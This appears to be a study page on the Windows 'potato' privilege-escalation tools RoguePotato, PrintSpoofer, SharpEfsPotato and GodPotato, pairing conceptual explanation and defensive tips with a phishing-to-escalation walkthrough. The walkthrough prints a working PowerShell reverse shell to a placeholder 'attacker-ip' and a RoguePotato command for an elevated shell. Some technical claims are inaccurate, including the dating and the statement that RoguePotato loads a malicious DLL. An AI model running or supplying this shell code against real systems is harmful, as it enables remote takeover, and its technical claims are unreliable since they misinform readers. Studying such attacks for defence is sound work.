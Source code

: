 # Windows RoguePotato, PrintSpoofer, SharpEfsPotato, GodPotato


# 👉 Overview

---

### 👀 What ?

> Windows RoguePotato, PrintSpoofer, SharpEfsPotato, and GodPotato are four cybersecurity exploits that target Windows' privilege escalation vulnerabilities. They are tools used by cyber attackers to gain higher-level access in a system, often with the goal of gaining administrative or 'root' access.
> 

### 🧐 Why ?

> Understanding these exploits is crucial because they are commonly used in modern-day cyber attacks, particularly those targeting corporate networks. They exploit inherent vulnerabilities in the Windows operating system, specifically related to privilege escalation, making any system running Windows potentially susceptible.
> 

### ⛏️ How ?

> To use these exploits to one's advantage, one must first understand the environments where they are effective. These tools usually require an initial foothold in the system, often obtained via social engineering or malware. Once inside, they can exploit Windows services to escalate privileges. For protection, regular system updates and patches, restricting unnecessary privileges, and monitoring for suspicious activity are crucial.
> 

### ⏳ When ?

> These exploits have been in use since they were discovered, around the mid-2010s. They are still actively used in the present day due to the wide use of the Windows operating system and the persistence of the vulnerabilities they exploit.
> 

# ⚙️ Technical Explanations

---

RoguePotato, PrintSpoofer, SharpEfsPotato, and GodPotato are cybersecurity exploits that target Windows' privilege escalation vulnerabilities. These tools are used to gain higher-level or 'root' access in a system, which could potentially give cyber attackers full control over a compromised system.

They leverage Windows' token manipulation and impersonation features. In Windows, a token is a data structure that includes security identification information for a process or thread, such as user identity and group membership. Token manipulation involves the alteration of these data structures to gain unauthorized access or elevate privileges.

These exploits often target the Windows NT LAN Manager (NTLM) protocol, which is known to have vulnerabilities. NTLM is an outdated Microsoft security protocol for providing authentication in their network protocols, and it has been superseded by Kerberos in newer versions of Windows. However, NTLM is still supported for backward compatibility, and this makes Windows systems vulnerable to these exploits.

The methodology of these exploits involves intercepting legitimate requests for elevated privileges and substituting them with malicious ones. This allows the attacker to execute actions with higher-level permissions, often leading to a complete system takeover.

To defend against these attacks, it is crucial to have an in-depth understanding of Windows' security features. Regular system updates and patches are essential as they often include fixes for known vulnerabilities. Furthermore, restricting unnecessary privileges and closely monitoring for suspicious activity can also help protect against these exploits.

It's important to note that while these exploits can be highly damaging, they usually require an initial foothold in the system, often obtained via social engineering or malware. Therefore, comprehensive security practices, including employee education and malware protection, are critical in preventing these exploits from being effective.

Let's consider a hypothetical scenario where an attacker has gained initial access to a Windows system through a successful phishing campaign.

### Step 1: Initial Foothold

The attacker sends a phishing email to the victim, and the victim unknowingly downloads and opens the malicious attachment. The attacker now has a foothold in the system. For example, the attacker could use a PowerShell script embedded in the attachment to establish a backdoor:

```powershell
$Client = New-Object System.Net.Sockets.TCPClient('attacker-ip', 8080)
$Stream = $Client.GetStream()
[Byte[]]$Bytes = 0..65535|%{0}
while(($i = $Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0) {
    $Data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $i)
    $Sendback = (Invoke-Expression -Command $Data 2>&1 | Out-String )
    $Sendback2 = $Sendback + '# '
    $Sendbyte = ([text.encoding]::ASCII).GetBytes($Sendback2)
    $Stream.Write($Sendbyte,0,$Sendbyte.Length)
    $Stream.Flush()
}

```

This script establishes a reverse-shell connection back to the attacker's machine, giving the attacker control over the victim's machine.

### Step 2: Privilege Escalation

The attacker uses a tool like RoguePotato to escalate their privileges. They would target a service running with higher privileges and force it to load a malicious DLL:

```powershell
RoguePotato.exe -r 127.0.0.1 -e cmd.exe -l 9999

```

In this command, `-r` specifies the target, `-e` specifies the executable (here, `cmd.exe`), and `-l` specifies the listening port. The attacker now has an elevated command prompt.

### Step 3: Lateral Movement

The attacker can now move laterally within the network, using tools like `net use` to map network drives or `psexec` to execute commands on remote systems.

Please note that this is a simplified example for illustrative purposes. Real-world attacks often involve additional steps and complexities. Always follow best security practices to protect against such attacks.
